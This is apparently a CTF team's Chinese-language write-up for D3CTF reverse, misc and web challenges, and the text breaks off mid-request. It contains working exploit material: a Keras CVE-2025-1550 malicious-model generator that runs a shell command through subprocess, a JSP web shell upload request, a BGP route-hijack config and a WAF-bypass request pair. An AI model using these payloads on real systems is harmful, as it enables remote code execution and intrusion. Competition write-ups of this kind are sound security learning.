咦？有着數喎



<!--more-->

# Reverse

## AliceInPuzzle

父子调试进程，子进程创建puzzle匿名文件然后塞payload进去启动；父进程主要看两个：信号为SIGTRAP时检查当前指令是不是`BRK`，是的话patch成`NOP`并一直解密指令到下一个`BRK`。信号为SIGSTOP就把给定的字符串前后颠倒过来。

tracee的main是空的，全局搜`0xD4200000`可以找到在`.init_proc`的主逻辑，只不过被加密了，写个脚本一路解密下去就完事：

```Python
from idc import *
from ida_bytes import *

def patch_code(addr):
    while True:
        before = get_dword(addr)
        after = (before + 0xE3201F) & 0xFFFFFFFF
        patch_dword(addr, after)
        if after == 0xD4200000:
            break
        addr += 4
    print(f"final address: {hex(addr)}")

# 从BRK的下一条指令开始，BRK指令本身patch为NOP
patch_code(0x4020C4)
```

稍微整理下代码，用python写完逻辑喂claude这个验证逻辑是在干嘛：

> 根据代码分析，这是一个**数字填充谜题**（类似于数独的变体），具体规则如下：
> 
> **谜题规则**
> 
> 1. **9x9网格**：游戏在一个9×9的网格上进行
>   
> 2. **连通区域规则**：每个数字所在的**连通区域大小必须等于该数字的值**
>   
> 3. **连通性定义**：相同数字的相邻格子（上下左右四个方向）组成连通区域
>   
> 4. **初始约束**：某些位置已经预设了数字，不能修改
>   

本来想找个正经算法求解下，结果队友用瞪眼法直接秒了，嘻嘻



```Python
game_mat = [
    3, 6, 6, 6, 6, 6, 6, 2, 2,
    3, 3, 2, 2, 4, 4, 3, 3, 1,
    6, 6, 6, 6, 5, 4, 4, 3, 6,
    6, 2, 2, 6, 5, 6, 6, 6, 6, 
    4, 7, 7, 7, 5, 5, 5, 8, 6, 
    4, 4, 4, 7, 7, 6, 3, 8, 8, 
    5, 6, 6, 6, 7, 6, 3, 3, 8, 
    5, 6, 6, 6, 7, 6, 6, 8, 8, 
    5, 5, 5, 2, 2, 6, 6, 8, 8
]

m = get_input_bytes(game_mat)
m = bytes(m).hex()
m = m[::-1]

import hashlib
print(hashlib.md5(m.encode()).hexdigest())
```

## d3rpg-revenge

一眼rpgmaker做的rpg，不过从来没逆过，瞎jb逆了。`d3rpg.exe`就是个启动程序，`d3rpg.dll`是主体，`RGSSGameMain`会引用`d3rpg.d3ssad`，可能是什么加密数据包，给文件名下硬断跟到`0x1000A7E0`可以找到解密相关代码。依样画葫芦写个脚本解密：

```Python
ssad = open('d3rpg.d3ssad', 'rb').read()[8:]

def get_dword(data, offset):
    return int.from_bytes(data[offset:offset + 4], 'little')

def decrypt_data(data: bytes, subkey: int) -> bytes:
    res = b''
    for i in range(0, len(data), 4):
        dword = get_dword(data, i)
        decrypted_dword = dword ^ subkey
        subkey = (9 * subkey + 114) & 0xffffffff
        res += decrypted_dword.to_bytes(4, 'little')
    return res

idx = 0
key = 0xCBAAFBEE

# 格式：4字节文件名长度 | 文件名 | 4字节数据长度 | 数据
# 都需要解密，解密后的数据放在./assets/目录下，必要时需要创建文件夹
while idx < len(ssad):
    name_len = get_dword(ssad, idx)
    name_len ^= key
    key = (9 * key + 114) & 0xffffffff
    idx += 4

    name = bytearray(ssad[idx:idx + name_len])
    for i in range(name_len):
        name[i] ^= key & 0xff
        key = (9 * key + 114) & 0xffffffff
    name = name.decode('utf-8')
    idx += name_len

    data_len = get_dword(ssad, idx)
    data_len ^= key
    key = (9 * key + 114) & 0xffffffff
    idx += 4

    data = ssad[idx:idx + data_len]
    decrypted_data = decrypt_data(data, key)
    idx += data_len

    # 改用os路径，在文件夹不存在的时候会创建文件夹
    import os
    os.makedirs(os.path.dirname(f'./assets/{name}'), exist_ok=True)
    with open(f'./assets/{name}', 'wb') as f:
        f.write(decrypted_data)
```

这样就把数据解包了，但有很多rxdata文件不知道是干啥的，搜了一下说是ruby的序列化文件什么的，找个开源项目解析下：https://github.com/GamingLiamStudios/rxdataToJSON

`Map002.rxdata`就有相关的flag检测逻辑，输入flag后会触发`check`函数进行检查，问题就是这个`check`函数是在哪。

问claude说是有个`Scripts.rxdata`会有相应逻辑，但解包出来的文件没这个名字，结果把文件`Unknown`改成`Scripts.rxdata`再喂rxdataToJSON就行了，不知道是不是故意的😅

接下来就是简单ruby源码阅读了，实际检查就一点反调试+xxtea，直接解密就行：

```C
#include <stdio.h>  
#include <stdint.h>  
#define DELTA 0xf1919810  
#define MX (((z>>5^y<<2) + (y>>3^z<<4)) ^ ((sum^y) + (key[(p&3)^e] ^ z)))  
  
void btea(uint32_t *v, int n, uint32_t const key[4])  
{  
    uint32_t y, z, sum;  
    unsigned p, rounds, e;  
    if (n > 1)            /* Coding Part */  
    {  
        rounds = 6 + 52/n;  
        sum = 0;  
        z = v[n-1];  
        do  
        {  
            sum += DELTA;  
            e = (sum >> 2) & 3;  
            for (p=0; p<n-1; p++)  
            {  
                y = v[p+1];  
                z = v[p] += MX;  
            }  
            y = v[0];  
            z = v[n-1] += MX;  
        }  
        while (--rounds);  
    }  
    else if (n < -1)      /* Decoding Part */  
    {  
        n = -n;  
        rounds = 6 + 52/n;  
        sum = rounds*DELTA;  
        y = v[0];  
        do  
        {  
            e = (sum >> 2) & 3;  
            for (p=n-1; p>0; p--)  
            {  
                z = v[p-1];  
                y = v[p] -= MX;  
            }  
            z = v[n-1];  
            y = v[0] -= MX;  
            sum -= DELTA;  
        }  
        while (--rounds);  
    }  
}  

int main()
{
    char enc[] = {46, 21, 111, 125, 234, 114, 192, 82, 44, 29, 191, 6, 242, 67, 93, 187, 143, 73, 222, 77, 0};
    char key[] = "rpgmakerxp_D3CTF";

    uint32_t *v = (uint32_t *)enc;
    btea(v, -5, (uint32_t *)key);
    for (int i = 0; i < 20; i++) {
        printf("%c", enc[i]);
    }
}
```

---

# Misc

## d3RPKI

`t2-3` **实际上并没有通过** **BGP** **宣告它自己所在的** **`10.4.0.0/24`** **网段**。因此，

t2-1使用手法显得消息是t2-3发的，宣告10.4.0.5收flag。

```Plain
protocol bgp t1_modified_export from BGP_peers {
    local 10.0.0.2 as 4211110002;
    neighbor 10.0.0.1 as 4211110001; # This is t1
    ipv4 {
        export filter {
            if net = 10.4.0.5/32 then {
                        bgp_path.empty; 
                        bgp_path.prepend(4211110004); # Path becomes (4211110004)
                accept;
            }
            if source ~ [RTS_STATIC, RTS_BGP] then accept;
            reject;
        };
    };
}
```

---

## d3image

solve.py

```Python
import torch
from model import Model
from utils import DWT, IWT, bits_to_bytearray, bytearray_to_text
import torchvision
from collections import Counter
from PIL import Image
import torchvision.transforms as T

# 图像预处理变换
transform_test = T.Compose(
    [
        T.CenterCrop((720, 1280)),
        T.ToTensor(),
    ]
)

class INV_block_inverse:
    """INV_block的逆向操作实现"""

    def __init__(self, inv_block, clamp=2.0):
        self.inv_block = inv_block
        self.channels = 3
        self.clamp = clamp

    def e(self, s):
        return torch.exp(self.clamp * 2 * (torch.sigmoid(s) - 0.5))

    def inverse(self, y):
        """INV_block的逆向操作"""
        y1, y2 = (
            y.narrow(1, 0, self.channels * 4),
            y.narrow(1, self.channels * 4, self.channels * 4),
        )

        # 逆向计算 y1 -> x1, y2 -> x2
        # 原始: y1 = x1 + f(x2), y2 = e(s1) * x2 + t1
        # 逆向: x1 = y1 - f(x2), x2 = (y2 - t1) / e(s1)

        # 首先需要从y1计算s1和t1
        s1, t1 = self.inv_block.r(y1), self.inv_block.y(y1)

        # 计算x2
        x2 = (y2 - t1) / self.e(s1)

        # 计算x1
        t2 = self.inv_block.f(x2)
        x1 = y1 - t2

        return torch.cat((x1, x2), 1)

def load_model(model_path):
    """加载预训练模型"""
    state_dicts = torch.load(model_path, map_location=device)
    network_state_dict = {
        k: v for k, v in state_dicts["net"].items() if "tmp_var" not in k
    }
    d3net.load_state_dict(network_state_dict)
    print("模型加载成功！")

def transform2tensor(img_path):
    """将图像转换为张量"""
    img = Image.open(img_path)
    img = img.convert("RGB")
    return transform_test(img).unsqueeze(0).to(device)

def decode_with_inverse_network(steg_img_path, cover_img_path):
    """使用逆向网络进行解码"""
    print(f"正在使用逆向网络解码图像: {steg_img_path}")

    # 加载图像
    steg_tensor = transform2tensor(steg_img_path)
    cover_tensor = transform2tensor(cover_img_path)
    B, C, H, W = steg_tensor.size()

    # 小波变换
    steg_dwt = dwt(steg_tensor)
    cover_dwt = dwt(cover_tensor)

    # 创建逆向网络实例
    inv_blocks = [
        INV_block_inverse(d3net.model.inv1),
        INV_block_inverse(d3net.model.inv2),
        INV_block_inverse(d3net.model.inv3),
        INV_block_inverse(d3net.model.inv4),
        INV_block_inverse(d3net.model.inv5),
        INV_block_inverse(d3net.model.inv6),
        INV_block_inverse(d3net.model.inv7),
        INV_block_inverse(d3net.model.inv8),
    ]

    with torch.no_grad():
        # 构造网络输出（我们有隐写图像，需要找到原始载荷）
        # 假设网络输出是 [steg_dwt, unknown_payload_dwt]
        # 我们需要逆向推导出输入 [cover_dwt, original_payload_dwt]

        # 尝试不同的载荷重构
        zero_payload_dwt = dwt(torch.zeros(B, C, H, W).to(device))

        # 构造假设的网络输出
        assumed_output = torch.cat([steg_dwt, zero_payload_dwt], dim=1)

        # 通过逆向网络链进行反向传播
        current = assumed_output
        for inv_block in reversed(inv_blocks):
            try:
                current = inv_block.inverse(current)
                print(f"逆向块处理完成，当前张量形状: {current.shape}")
            except Exception as e:
                print(f"逆向处理出现错误: {e}")
                break

        # 提取重构的载荷
        if current.shape[1] >= 24:
            reconstructed_cover_dwt = current.narrow(1, 0, 12)
            reconstructed_payload_dwt = current.narrow(1, 12, 12)

            # 转换回空间域
            reconstructed_payload = iwt(reconstructed_payload_dwt)

            # 验证重构的载体图像是否接近原始载体图像
            reconstructed_cover = iwt(reconstructed_cover_dwt)
            cover_diff = torch.mean(torch.abs(reconstructed_cover - cover_tensor))
            print(f"重构载体图像与原始载体图像的差异: {cover_diff.item()}")

            # 提取二进制位
            secret_bits = reconstructed_payload.view(-1) > 0
            bits = secret_bits.data.int().cpu().numpy().tolist()

            print(f"从重构载荷中提取到 {len(bits)} 个二进制位")

            # 尝试解码
            candidates = Counter()
            try:
                byte_data = bits_to_bytearray(bits)
                for candidate in byte_data.split(b"\x00\x00\x00\x00"):
                    if len(candidate) > 0:
                        decoded_text = bytearray_to_text(bytearray(candidate))
                        if decoded_text and (
                            "d3ctf{" in decoded_text or "flag" in decoded_text.lower()
                        ):
                            candidates[decoded_text] += 1
                            print(f"找到候选flag: {decoded_text}")
            except Exception as e:
                print(f"解码过程中出现错误: {e}")

            if len(candidates) > 0:
                best_candidate, count = candidates.most_common(1)[0]
                return best_candidate

    return None

def simple_difference_analysis(steg_img_path, cover_img_path):
    """简单的差异分析方法"""
    print("尝试简单差异分析...")

    steg_tensor = transform2tensor(steg_img_path)
    cover_tensor = transform2tensor(cover_img_path)

    # 直接计算像素差异
    diff = steg_tensor - cover_tensor

    # 尝试将差异转换为二进制信息
    # 方法1: 基于差异的符号
    diff_binary = (diff > 0).float()
    bits1 = diff_binary.view(-1).data.int().cpu().numpy().tolist()
    result1 = try_decode_bits(bits1, "差异符号法")

    # 方法2: 基于差异的阈值
    threshold = torch.std(diff) * 0.5
    diff_binary2 = (torch.abs(diff) > threshold).float()
    bits2 = diff_binary2.view(-1).data.int().cpu().numpy().tolist()
    result2 = try_decode_bits(bits2, "差异阈值法")

    return result1 or result2

def try_decode_bits(bits, method_name):
    """尝试从二进制位解码文本"""
    print(f"{method_name}: 提取到 {len(bits)} 个二进制位")

    candidates = Counter()

    try:
        # 尝试不同的起始位置，因为信息可能不是从第0位开始的
        for start_offset in range(0, min(1000, len(bits)), 8):
            trimmed_bits = bits[start_offset:]
            if len(trimmed_bits) < 64:  # 至少需要8个字节
                continue

            byte_data = bits_to_bytearray(trimmed_bits)
            for candidate in byte_data.split(b"\x00\x00\x00\x00"):
                if len(candidate) > 10:  # 至少10字节才可能是有效的flag
                    decoded_text = bytearray_to_text(bytearray(candidate))
                    if decoded_text and (
                        "d3ctf{" in decoded_text or "flag" in decoded_text.lower()
                    ):
                        candidates[decoded_text] += 1
                        print(f"{method_name}: 找到候选flag: {decoded_text}")
    except Exception as e:
        print(f"{method_name}: 解码过程中出现错误: {e}")
        return None

    if len(candidates) > 0:
        best_candidate, count = candidates.most_common(1)[0]
        print(f"{method_name}: 解码成功！")
        return best_candidate
    else:
        print(f"{method_name}: 未找到有效的隐藏信息")
        return None

if __name__ == "__main__":
    # 设置设备
    device = torch.device("cuda:0" if torch.cuda.is_available() else "cpu")
    print(f"使用设备: {device}")

    # 初始化模型和小波变换
    d3net = Model(cuda=torch.cuda.is_available())
    d3net.eval()

    dwt = DWT()
    iwt = IWT()

    # 加载预训练模型
    load_model("magic.potions")

    # 解码图像
    steg_image = "mysterious_invitation.png"
    cover_image = "poster.png"

    print("方法1: 尝试逆向网络解码...")
    flag = decode_with_inverse_network(steg_image, cover_image)

    if not flag:
        print("\n方法2: 尝试简单差异分析...")
        flag = simple_difference_analysis(steg_image, cover_image)

    if flag:
        print(f"\n🎉 CTF Flag 找到了！")
        print(f"Flag: {flag}")
    else:
        print("\n❌ 所有解码方法都失败了")
```

---

## d3rpg-signin

Part0: 地下室找到村长，购买调试功能后回到地表，找到地图右下角的水井，检查内存即可找到密码。输入后得到flag0.





part1：


part2：地下室再爬个洞找到商人，-255rmb会变成+1rmb，但是第二件商品需要128rmb



part3：地板上的摩斯密码






---

# Web

## tidy quic

~~不难发现~~，当存在 ContentLength 的时候，就会从 BufferPool 里面拿一个对应长度的 buffer 出来用。并且读取 body 内容的时候，没有清空原有 buffer，也没有验证读取内容是否达到 ContentLength 个 bytes。这就导致如果 ContentLength 比 body 长，buffer 后面的 bytes 就会有之前 POST 的内容，拼接后的内容不会被 WAF 检测。

于是先提交 `I want __ag` 再提交 `I want fl`（两者的 Content-Length 都设置成 11），后面那个 POST 就(大概率)会拼成 `I want flag`。

```Python
# 改编自 https://github.com/aiortc/aioquic/blob/main/examples/http3_client.py
configuration = QuicConfiguration(is_client=True, alpn_protocols=H3_ALPN, verify_mode=ssl.CERT_NONE)
async with connect('127.0.0.1', '8080', configuration=configuration, create_protocol=HttpClient) as client:
    await client.post('https://127.0.0.1:8080/', data=b'I want __ag', headers={'content-length': '11'})
    events = await client.post('https://127.0.0.1:8080/', data=b'I want fl', headers={'content-length': '11'})
    for event in events:
        if isinstance(event, DataReceived):
            print(f"Data received: {event.data}")
```

---

## d3model

1. Keras < 3.9 RCE漏洞： CVE-2025-1550
  
2. Exp : https://blog.huntr.com/inside-cve-2025-1550-remote-code-execution-via-keras-models
  
3. 容器不出网
  
4. index.html 可写
  
5. 用下面的exp.py生成model.keras，上传，即可看到flag
  

Exp:

1. exp.py

```Python
import zipfile
import json
from keras.models import Sequential
from keras.layers import Dense
import numpy as np
import os

model_name="model.keras"

x_train = np.random.rand(100, 28*28)  
y_train = np.random.rand(100) 

model = Sequential([Dense(1, activation='linear', input_dim=28*28)])

model.compile(optimizer='adam', loss='mse')
model.fit(x_train, y_train, epochs=5)
model.save(model_name)

with zipfile.ZipFile(model_name,"r") as f:
    config=json.loads(f.read("config.json").decode())
    
config["config"]["layers"][0]["module"]="keras.models"
config["config"]["layers"][0]["class_name"]="Model"
config["config"]["layers"][0]["config"]={
    "name":"mvlttt",
    "layers":[
        {
            "name":"mvlttt",
            "class_name":"function",
            "config":"Popen",
            "module": "subprocess",
            "inbound_nodes":[{"args":[["echo $(env) >> index.html"]],"kwargs":{"bufsize":-1,"shell": True}}]
        }],
            "input_layers":[["mvlttt", 0, 0]],
            "output_layers":[["mvlttt", 0, 0]]
        }

with zipfile.ZipFile(model_name, 'r') as zip_read:
    with zipfile.ZipFile(f"tmp.{model_name}", 'w') as zip_write:
        for item in zip_read.infolist():
            if item.filename != "config.json":
                zip_write.writestr(item, zip_read.read(item.filename))

os.remove(model_name)
os.rename(f"tmp.{model_name}",model_name)

with zipfile.ZipFile(model_name,"a") as zf:
        zf.writestr("config.json",json.dumps(config))

print("[+] Malicious model ready")
```

2. config.json

```Bash
{
  "config": {
    "layers": [
      {
        "module": "keras.models",
        "class_name": "Model",
        "config": {
          "layers": [
            {
              "module": "keras.models",
              "class_name": "Model",
              "config": {
                "name": "mvlttt",
                "layers": [
                  {
                    "name": "mvlttt",
                    "class_name": "function",
                    "config": "Popen",
                    "module": "subprocess",
                    "inbound_nodes": [
                      {
                        "args": [ [ "echo $(env) >> index.html" ] ],
                        "kwargs": {
                          "bufsize": -1,
                          "shell": true
                        }
                      }
                    ]
                  }
                ],
                "input_layers": [ [ "mvlttt", 0, 0 ] ],
                "output_layers": [ [ "mvlttt", 0, 0 ] ]
              }
            }
          ]
        }
      }
    ]
  }
}
```

---

## d3jtar

jadx反编译静态分析源码发现上传文件过滤了各种后缀，比如第一个jsp，并且过滤了

一开始直接丢给AI分析了一轮，构建出整体框架，发现只有三个路由：`view`，`Backup`，`Upload`

进行backup操作的时候发现会将views下的文件保存为backup.tar归档，然后在restore时解压出来，一开始想到构造一个带有可造成路径穿越的文件的backup.tar，restore出来路径穿越覆盖掉一开始的backup.tar，然后再restore一次来将jsp马写入views，试了，无果，untar的时候不会递归解压，反编译的代码也显示了这一点。但是发现untar的过程没有进行检查，可以猜测大概是要backup然后restore

POST上传jsp马

```Python
POST /Upload HTTP/1.1
Host: 35.241.98.126:31160
Content-Length: 710
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryn4OruM32HnKlqw5n
Accept: */*
Origin: http://35.241.98.126:31454
Referer: http://35.241.98.126:31454/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryn4OruM32HnKlqw5n
Content-Disposition: form-data; name="file"; filename="testn.jųp"
Content-Type: application/octet-stream

<%@ page import="java.util.*, java.io.*" %>
<%
if (request.getParameter("cmd") != null) {
    Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
    BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream()));
    String line;
    while ((line = br.readLine()) != null) {
        out.println(line + "<br>");
    }
}
%>
<h1>Webshell Active</h1>
<form method="GET">
    <input type="text" name="cmd" size="80">
    <input type="submit" value="Execute">
</form>
------WebKitFormBoundaryn4OruM32HnKlqw5n--
```



执行命令Get Flag





分析源码


这个 `getNameBytes` 函数存在一个严重的字符编码处理漏洞，根本原因是 Unicode 字符被直接截断为低8位字节

```Java
public static int getNameBytes(StringBuffer name, byte[] buf, int offset, int length){
    int i;
    for (i=0; i<length && b  i<name.length(); ++i){
        buf[offset+i] = (byte) name.charAt(i); // 漏洞点
    }
    for(; i < length; ++i){
        buf[offset+i] = 0;
    }
}
```

字符转换过程：

- `name.charAt(i)` 返回 16 位 Unicode 字符（0-65535）
  
- `(byte)` 强制转换为 8 位字节（-128 到 127）
  
- 高8位数据被丢弃，只保留低8位
  

---

## d3invitation

题目容器显示有一个minio，一开始先测试了minio的未授权信息泄露CVE，无果，遂继续抓包分析，并将`static/js/tools.js`丢给AI分析了一下，发现总共就三个接口：`/api/genSTSCreds`，`/api/getObject`，`/api/putObject`

/api/genSTSCreds 接口获取STS凭证

```YAML
POST /api/genSTSCreds HTTP/1.1
Host: 34.150.83.54:31668
Content-Length: 26
Accept-Language: zh-CN,zh;q=0.9
